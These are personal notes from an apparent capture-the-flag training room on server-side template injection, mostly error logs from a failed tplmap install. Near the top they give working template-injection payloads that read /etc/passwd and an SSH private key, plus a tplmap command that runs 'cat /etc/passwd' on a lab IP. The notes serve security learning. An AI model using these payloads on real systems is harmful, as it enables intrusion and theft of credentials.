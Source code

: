 # ZTH: Obscure Web Vulns
# Data: 03.10.2020, 04.10.2020

IP:`10.10.219.86`, `10.10.52.86`
-------------------


## SSTI - Server Side Template Injection
IP:`10.10.219.86`, `10.10.52.86`

>usually you can test for SSTI using {{2+2}} as a test

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection

{{config.__class__.__init__.__globals__['os'].popen(cat /etc/passwd).read()}}

{{ ''.__class__.__mro__[2].__subclasses__()[40]()('/home/test/.ssh/id_rsa').read()}}


---
tplmap - Template mapper

./tplmap.py -u http://10.10.10.10:5000/ -d 'noot' --os-cmd "cat /etc/passwd"

---
test

error with tplmap :(
///
$pip3 install -r requirements.txt 
Collecting PyYAML==5.1.2
  Using cached PyYAML-5.1.2.tar.gz (265 kB)
Collecting certifi==2018.10.15
  Using cached certifi-2018.10.15-py2.py3-none-any.whl (146 kB)
Requirement already satisfied: chardet==3.0.4 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 3)) (3.0.4)
Collecting idna==2.8
  Using cached idna-2.8-py2.py3-none-any.whl (58 kB)
Collecting requests==2.22.0
  Using cached requests-2.22.0-py2.py3-none-any.whl (57 kB)
Collecting urllib3==1.24.1
  Using cached urllib3-1.24.1-py2.py3-none-any.whl (118 kB)
Collecting wsgiref==0.1.2
  Using cached wsgiref-0.1.2.zip (37 kB)
    ERROR: Command errored out with exit status 1:
     command: /usr/bin/python3 -c 'import sys, setuptools, tokenize; sys.argv[0] = '"'"'/tmp/pip-install-cn_q89to/wsgiref/setup.py'"'"'; __file__='"'"'/tmp/pip-install-cn_q89to/wsgiref/setup.py'"'"';f=getattr(tokenize, '"'"'open'"'"', open)(__file__);code=f.read().replace('"'"'\r\n'"'"', '"'"'\n'"'"');f.close();exec(compile(code, __file__, '"'"'exec'"'"'))' egg_info --egg-base /tmp/pip-pip-egg-info-ih5e3n8_                                                                                                    
         cwd: /tmp/pip-install-cn_q89to/wsgiref/                                                      
    Complete output (8 lines):                                                                        
    Traceback (most recent call last):                                                                
      File "<string>", line 1, in <module>                                                            
      File "/tmp/pip-install-cn_q89to/wsgiref/setup.py", line 5, in <module>                          
        import ez_setup                                                                               
      File "/tmp/pip-install-cn_q89to/wsgiref/ez_setup/__init__.py", line 170                         
        print "Setuptools version",version,"or greater has been installed."                           
              ^                                                                                       
    SyntaxError: Missing parentheses in call to 'print'. Did you mean print("Setuptools version",version,"or greater has been installed.")?                                                                 
    ----------------------------------------                                                          
ERROR: Command errored out with exit status 1: python setup.py egg_info Check the logs for full command output.   

----

$./tplmap.py -u http://10.10.52.86 -d 'name' --os-cmd 'cat /etc/passwd'
Traceback (most recent call last):
  File "./tplmap.py", line 3, in <module>
    from core import checks
  File "/opt/tplmap/core/checks.py", line 1, in <module>
    from plugins.engines.mako import Mako
  File "/opt/tplmap/plugins/engines/mako.py", line 1, in <module>
    from plugins.languages import python
  File "/opt/tplmap/plugins/languages/python.py", line 2, in <module>
    from core.plugin import Plugin
  File "/opt/tplmap/core/plugin.py", line 3, in <module>
    from utils.loggers import log
  File "/opt/tplmap/utils/loggers.py", line 4, in <module>
    import utils.config
  File "/opt/tplmap/utils/config.py", line 3, in <module>
    import yaml
ImportError: No module named yaml

///

luckly i found flag online ...



